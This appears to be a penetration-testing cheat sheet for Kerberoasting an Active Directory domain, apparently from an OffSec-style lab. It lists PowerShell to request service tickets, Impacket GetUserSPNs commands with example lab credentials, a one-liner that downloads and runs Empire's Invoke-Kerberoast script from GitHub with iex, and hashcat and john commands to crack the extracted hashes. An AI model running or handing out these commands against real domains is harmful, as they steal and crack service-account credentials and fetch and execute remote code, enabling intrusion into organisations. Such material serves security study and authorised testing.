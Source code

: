 ### KRB_REQ_TGS
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

```powershell
klist
```

### Kerberostable/Kerberosting
**Linux*
```bash

sudo /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip  192.168.237.57 'OFFSEC.LOCAL/Nathan:abc123//'


sudo /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

**Windows**

```powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoastables.txt
```

**Crack**

```bash
hashcat -m 13100 kerberoastables.txt /usr/share/wordlists/rockyou.txt
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerberoastables.txt
```